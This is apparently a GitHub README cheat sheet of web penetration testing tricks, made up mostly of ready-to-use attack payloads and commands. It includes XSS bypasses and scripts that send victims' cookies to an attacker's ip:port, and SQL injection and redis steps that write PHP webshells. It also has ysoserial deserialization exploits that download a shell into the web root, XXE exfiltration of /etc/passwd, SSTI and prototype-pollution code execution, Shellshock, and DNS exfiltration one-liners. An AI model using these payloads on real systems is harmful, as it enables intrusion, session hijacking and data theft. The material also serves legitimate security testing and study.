 # Tricks - Web Penetration Tester

- [x] In construction...

## WAF

### Detection

-> Cookies

-> HTTP Response Messages

-> Rules

-> HTTP Status Code

### Tool's

-> wafw00f 

https://github.com/EnableSecurity/wafw00f

-> nmap --script=http-waf-fingerprint

https://nmap.org/nsedoc/scripts/http-waf-fingerprint.html

-> imperva-detect

https://raw.githubusercontent.com/vmfae-iscteiulpt/imperva-detect/master/imperva-detect.sh

-> bypass to find real ip in CloudFlare:

https://github.com/zidansec/CloudPeler

#### Others

https://github.com/0xInfection/Awesome-WAF

## Host Obfuscation

#### Types

-> DWORD
  
-> OCTAL 
  
-> HEX
  
-> HYBRID

### Tool

https://www.silisoftware.com/tools/ipconverter.php

## PHP Obfuscation Techniques:

### Mix - Hex + Octal

echo "t\x72\x69\143\153s";

//Tricks

### Variable Parsing

$a = "ri"; $b ="ck"; echo "T$a[0]$a[1]$b[0]$b[1]s";

//Tricks

### Variable Variables

$a = "T"; $$a = "ri"; $$$a = "cks"; echo $a.$T.$ri;

//Tricks

### PHP Non-Alphanumeric 

$\_="{"; #XOR char

echo $\_=($\_^"<").($\_^">").($\_^"/"); #XOR = GET

//GET

https://web.archive.org/web/20160516145602/http://www.thespanner.co.uk/2011/09/22/non-alphanumeric-code-in-php/

### PHP Obfuscation - base64+gzdeflate

codes/obufscation/obfuscation.php

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/obfuscation/obfuscation.php

## Online PHP Executor

"3v4l.org (leetspeak for eval) is an online shell that allows you to run your code on my server. I compiled more than 250 different PHP versions (every version released since 4.3.0) for you to run online."

https://3v4l.org/

### PHP Obfuscation Decoders 

https://malwaredecoder.com/

https://hackvertor.co.uk/public

## Cross-Site Scripting (Reflected, Stored, DOM, Mutation, Poliglote)

### Protection XSS

-> XSS Auditor and XSS Filter

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xss.md

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

https://www.chromium.org/developers/design-documents/xss-auditor/

https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

-> Wordlists for XSS Bypass

https://gist.githubusercontent.com/rvrsh3ll/09a8b933291f9f98e8ec/raw/535cd1a9cefb221dd9de6965e87ca8a9eb5dc320/xxsfilterbypass.lst

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

https://raw.githubusercontent.com/payloadbox/xss-payload-list/master/Intruder/xss-payload-list.txt

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/XSS/XSS-Cheat-Sheet-PortSwigger.txt

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/

https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex blacklist filtering

(on\w+\s*=)

<svc/onload=alert(1)>

<svg//////onload=alert(1)>

<svg id=x;onload=alert(1)>
  
<svg id=\`x\`onload=alert(1)>
  
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
  
<svg onload%09=alert(1)>
  
<svg %09onload=alert(1)>
  
<svg %09onload%20=alert(1)>
  
<svg onload%09%20%28%2C%3B=alert(1)>
  
<svg onload%0B=alert(1)>

### Keyword based in filter
 
#### blocked - alert - bypass
  
-> <script>\u0061lert(1)</script>
  
-> <script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  
-> <script>eval("\u0061lert(1)")</script>
  
-> <script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script> 
  
#### Removing HTML Tags
  
<scr<iframe>ipt>alert(1)</script>
  
### Scaping Quote
  
### Methods
  
-> String.fromCharCode()
  
-> unescape

Ex:
 
-> decode URI + unescape method
  
decodeURI(/alert(%22xss%22)/.source)
  
decodeURIComponent(/alert(%22xss%22)/.source)
  
Add execution sink for execution:
  
-> eval
  
### Escaping Parentheses
  
\<img src=x onerror="\u0061lert(1)"/>
  
\<img src=x onerror="eval('\141lert(1)')"/>

\<img src=x onerror="eval('\x61lert(1)')"/>
  
### Others Examples
  
#### HTML Tag
  
\<div>
  
here
  
\</div>

-> <svg/onload=alert(1)

#### HTML Tag Attributes

<input value="here"/></input>
 
-> adaa"> <a/href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTs8L3NjcmlwdD4=">show</!--
  
#### Script Tag
  
<script>
  
var name="here";
  
</div>
  
</script>
  
-> ;alert(1);//

#### Event Attributes

\<button onclick="reserve(here);">
  
Okay!
  
</button>

-> alert(1)

Dom Based
  
\<script>var ok = location.search.replace("?ok=", "");domE1.innerHTML = "<a href=\'"+ok+"\'>ok</a>";</script>
  
-> javascript:alert(1)

### JavaScript Encoding and Compressor:

-> jjencode, aaencode, jsfuck, Minifying,Packer

### Decoder - Obfuscation (PHP and Javascript Decoder)
  
https://malwaredecoder.com/

## XSS - Session Hijacking
  
ex:
  
\<script type=“text/javascript”>document.location=“http://ip:port/?cookie=“+document.cookie;</script>

\<script>window.location="http://ip:port/?cookie="+document.cookie;</script>

## Type Juggling

https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf

### PHP - others tricks

[ eval () execute a chain whose variable $ HTTP_USER_AGENT is so just
change your header in PHP code ]

https://www.exploit-db.com/papers/13694

## Insecure Deserialization 

-> Binary

-> Human-readable

### PHP Deserialization

#### PHP - Method Serialization:

-> serialize()

-> unserialize()

#### Magic Methods:

-> __construct()

-> __destruct()

-> __wakUp()

#### Class Properties

Public \<s>
 
Ex:

O:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}
  
Protected \0 * \0

Ex:

O:4:"Okay":1:{s:11:"' . "\0" . '*' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

Private \0 \<s> \0

Ex:
  
O:4:"Okay":1:{s:14:"' . "\0" . 'Okay' . "\0" . 'filepath";s:11:"/tmp/ok.txt";}

codes/deserialization/example.php
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/example.php
  
#### Trick Bypass

a:2:{s:8:"anything";o:4:"Okay":1:{s:8:"filepath";s:11:"/tmp/ok.txt";}}

### Tool

https://github.com/ambionics/phpggc
  
### Others 

codes/deserialization/php/token_hmac_sha1.php
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/php/token_hmac_sha1.php

### .NET Deserialization

#### Methods Serialization:

-> Binary Formatter

-> DataContractSerializer

-> NetDataContractSerializer

-> XML Serialization
  
#### Most common places to find serialized data

-> VIEWSTATE
    
-> .NET remoting services
  
#### Tool

https://github.com/pwntester/ysoserial.net

### Java Deserialization

#### Identify

-> import java.io.serializable

-> binary with ac ed 00 05

-> base64 starts with rO0AB in web applications
  
#### java.lang.Runtime.exec()
  
bash -c {echo,payload_base64}|{base64,-d}|{bash,-i}

https://www.bugku.net/runtime-exec-payloads/

#### Tools

https://github.com/frohoff/ysoserial

https://github.com/NickstaDB/SerializationDumper

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
  
#### Script
  
codes/deserialization/java/gserial.sh
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/gserial.sh
  
codes/deserialization/java/payload.txt

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/java/payloads.txt
  
while read payload; 
  
do echo "$payload\n\n"; 
  
java -jar ysoserial.jar $payload "sleep 5" | base64 | tr -d '\n' > $payload.ser; 
  
echo "-----------------Loading-----------------\n\n"; done < payloads.txt
 
#### Signals
  
-> Bad Sign

ClassNot FoundException

-> Good Sign

java.io.IOException
  
#### JRMPListener and JRMPClient (CommonsCollections)
  
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 80 CommonsCollections “curl http://ip:port/shell.php -o /var/www/shell.php”

java -jar ysoserial-all.jar “JRMPClient” ip:80” |base64 -w0
  
### Python Deserialization

#### Pickle
  
codes/deserialization/python/py_pickle.py

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/python/py_pickle.py

### YAML Deserialization
  
codes/deserialization/exploit.yaml

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/deserialization/yaml/exploit.yaml
  
## Cloud

### Meta-data

http://169.254.169.254/latest/meta-data

http://169.254.169.254/latest/api/token

### Serverless Injection

echo "hi" > ok.txt && aws s3 cp ok.txt 's3://<BUCKET>/' -acl -public-read
  
### Tools

https://github.com/clarketm/s3recon
 
https://github.com/RhinoSecurityLabs/pacu
  
## XPATH
  
error()

* and doc('http://hacker.site/')
  
* and doc('http://hacker.site/', name(/*) ))
  
### Tools
  
https://xcat.readthedocs.io/en/latest/
  
### Wordlists for SQLI e XPath - Authentication Bypass

https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt
  
## Padding Oracle Attack
  
### Identify

-> rememberMe: (Cookie)

### Exploiting 

java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class

https://github.com/frohoff/ysoserial

python shiro_exp.py site.com/home.jsp cookie payload.class

https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py
  
## Hash Length Extension Attack

https://github.com/iagox86/hash_extender

https://site.com/index.php?file=oktest&hash=hash

./hash_extender -f sha1 --data 'oktest' -s hash --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > payloads.out

burp intruder -> payloads.out in file parameter.  
  
## Insecure - Machine Key for RCE 

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/exploiting-__viewstate-parameter.md
  
https://github.com/pwntester/ysoserial.net
  
https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper
  
### Others Docs

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

## Local File Inclusion - LFI

### LFI - files for fuzzing

### Wordlist LFI - Linux

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

### Wordlist LFI - Windows

https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

### Payloads for bypass:

-> bypass_lfi.txt
  
### Wordlist for parameter fuzzing
  
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt
  
### Wordlist for subdomain fuzzing
  
https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS

## SQL Injection
  
### WAF BYPASS

#### Query default:

'UNION SELECT 1, name,3,4 from users; -- -

#### Add comment /* */ for space bypass

'UNION/\*\*/SELECT/\*\*/1,name,3,4/**/from/**/users; -- -

#### Add comment /\*!\*/ in query for filters bypass

'/\*!UNION SELECT\*/ 1,group_concat(name),3,4 from users; -- -

#### Add random case

'UnIoN SeLeCt 1,GrOuP_cOnCaT(nAme),3,4 FrOm users; -- -

#### Example of mix:

'/\*!UnIoN/\*\*/SeLeCt/\*\*/\*/1,GroUp_ConCat(nAmE),3,4/\*\*/FrOm/\*\*/users; -- -

#### Others Techniques:

-> urlencode (example:%20 instead of space);
  
-> Scientifc Notation;
  
-> hexadecimal, substr, etc...
  
### Webshell via SQLI
  
select "\<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
  
### SQL Injection Second-Order (query connector)

codes/sqli/second_order/script.php

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/second-order/script.php

### Webshell via redis

redis-cli -h ip

config set dir /var/www/html

config set dbfilename ok.php

set test "\<?php system($_GET['okay'); ?>" 

save

#### Study

https://tryhackme.com/room/sqlilab

### SQL Injection Out-Of-Band, etc

https://book.hacktricks.xyz/pentesting-web/sql-injection
  
### Tamper's SQLMAP
  
-> randomcase.py
  
-> order2ascii.py

-> xforwardedfor.py
 
### XPATH NOTATION
  
%' and extractvalue(0x0a,concat(0x0a,(select database() limit 1))) -- -
  
### Wordlist for SQL Injection - Bypass

https://gist.githubusercontent.com/zetc0de/f4146eb278805946ab064a753eac6a02/raw/e126452093b9cde7f82eff14a15f8ceca8188701/sqli-bypass-waf.txt

### Doc for SQL Injection - Bypass

https://github.com/OWASP/www-community/blob/master/pages/attacks/SQL_Injection_Bypassing_WAF.md
  
### Others
  
codes/sqli/time-based/sqli.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/time-based/sqli.py
  
codes/sqli/tampers/second-order.py

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/sqli/tampers/second-order.py
  
## NOSQL Injection
  
https://book.hacktricks.xyz/pentesting-web/nosql-injection
  
## Graphql Introspection

https://ivangoncharov.github.io/graphql-voyager/
  
## CSRF

codes/csrf/csrf.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf.html
  
codes/csrf/csrf_json.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json.html
  
codes/csrf/csrf_json_xhr.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_json_xhr.html
  
codes/csrf/csrf_token_bypass.html
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/csrf/csrf_token_bypass.html
  
### Analyze the token and perform brute-force

burp intruder -> sequencer -> Token Location Within Response -> Start live capture -> save tokens

cat tokens.txt | uniq -c | nl 
  
## SSTI

### Identify

-> Jinja2 or Twig
  
{{3*3}}

-> Smarty or Mako
  
{3*3}

-> ERB(Ruby)
  
<%= 7*7 %>

-> FreeMarker
  
#{3*3}

-> Others 
    
${3*3}
  
${{3*3}}

3*3

### Java Expression Language

{{T(java.lang.Runtime).getRuntime().exec('id')}}

''.class.forName('java.lang.Runtime').getRuntime().exec('id')

### FreeMarker

\<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}

### Python - Secret Key
  
{{settings.SECRET_KEY}}
  
### Doc for SSTI	

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
  
## SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.

-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.

gopher://127.0.0.1:port/_

### Scripts

codes/ssrf_protocol_smuggling/memcached.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/memcached.py 

codes/ssrf_protocol_smuggling/zabbix.py
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/zabbix.py

### Tool's

-> Gopherus

https://github.com/tarunkant/Gopherus
  
### Scripts

codes/ssrf_protocol_smuggling/zabbix.py
  
codes/ssrf_protocol_smuggling/memcached.py
  
-> stats items
  
-> stats cachedump <slab class> <number of items to dump>
  
-> get \<item>
  
### Docs for SSRF

https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
  
## CRLF Injection
  
/%0d%0aLocation:

/%0d%0a%0d%0a\<svg onload=(0)>

## XXE

### Methods:

\<!ENTITY % file SYSTEM "file:///etc/passwd">
\<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
\<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

## XXE - Blind Out-Of-Band

### Exfiltrate data exfiltrating data via dtd

-> Part 1

\<!DOCTYPE r[

\<!ELEMENT r ANY>

\<!ENTITY % ult SYSTEM "http://ip/evil.dtd">

%ult;

%int;

]>

<r>&exfil;</r>

-> Part 2
  
codes/xxe/evil.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.dtd
  
\<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
  
\<!ENTITY % int "\<!ENTITY exfil SYSTEM 'http://ip/?leak=%file;'>">
  
### Retrieve data via error messages with dtd file
  
codes/xxe/error.dtd
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/error.dtd

-> Part 1

\<!DOCTYPE foo [

\<!ENTITY % xxe SYSTEM "https://ip/evil.dtd"> 

%xxe;

%payload;

%remote;

]>

-> Part 2

\<!ENTITY % file SYSTEM "file:///etc/passwd">

\<!ENTITY % payload "\<!ENTITY &#37; remote SYSTEM 'file:///idonotexist/%file;'>">
  
### XInclude to retrieve files with dtd file

\<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>\</foo>

### Image file upload

code/xxe/evil.svg

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/xxe/evil.svg
  
\<?xml version="1.0" standalone="yes"?>\<!DOCTYPE test [ \<!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>\<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">\<text font-size="16" x="0" y="16">&xxe;\</text>\</svg>

## XSLT Server Side Injection
  
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations

## Prototype Pollution

### Client Side
  
https://github.com/BlackFan/client-side-prototype-pollution
  
### Server Side

-> exec.exec in req body with lodash - application/json
  
https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback

"__proto__":{
  
  "shell":"sleep 5"
  
}
  
-> exec.fork in req body with lodash - application/json
  
https://nodejs.org/api/process.html
  
"__proto__":{
  
    "execPath":"/bin/bash",
  
    "execArgv":[
  
    "-c",
  
    "sleep 5"
  
    ]
  
  }

### RCE - Exfiltrating via dns

curl http://$(whoami).site.com/

curl http://\`whoami\`.site.com/

### Shellshock

User-Agent: () { :; }; /usr/bin/nslookup $(whoami).site.com

### CMS

#### Wordpress

-> Tool

wpscan --url http://site.com/wordpress --api-token your_token --enumarate vp --plugins-detection aggressive

https://wpscan.com/wordpress-security-scanner

#### Joomla!

-> Tool

https://github.com/oppsec/juumla

#### Drupal

-> Tool

https://github.com/SamJoan/droopescan

## Fuzzing (+)
  
### DNS

ffuf -u https://FUZZ.site.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt

### VHOST
  
ffuf  -u http://site.com -H 'Host: FUZZ.site.com' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-11000.txt -fs xxx

### FUZZING EXTENSIONS FIL
  
ffuf -u http://site.com -

### FUZZING PARAMTER GET

ffuf -u "http://site.com/index.php?FUZZ=ok" -w wordlist.txt -fs xxx  
### FUZZING PARAMTER POST
  
ffuf -u "http://site.com/index.php" -X POST -d 'FUZZ=ok' -H 'Content-Type: application/x-www-form-urlencoded' -w wordlist.txt -fs xxx

## Web Recon (+)
  
## Others tool's and things
  
### ImageTragik

codes/others/tragik.jpg
  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/rce/tragik.jpg
  
### Search across a half million git repos
  
https://grep.app
  
### The Cyber Swiss Army Knife - a web app for encryption, encoding, compression and data analysis.
  
https://gchq.github.io/CyberChef/
  
### List of file signatures
  
https://en.wikipedia.org/wiki/List_of_file_signatures

### Regex 
  
https://regex101.com/

### Encode for SQL Injection in Json
  
https://dencode.com/string/unicode-escape
  
### Wildcard DNS

https://nip.io/
  
### Explain Shell

https://explainshell.com/
  
### Webhook online
  
https://webhook.site/#!/b3d5ed21-b58d-4a77-b19d-b7cdc2eeadc0
  
### Reverse Shell
  
https://www.revshells.com/
 
### Api Security

https://platform.42crunch.com/
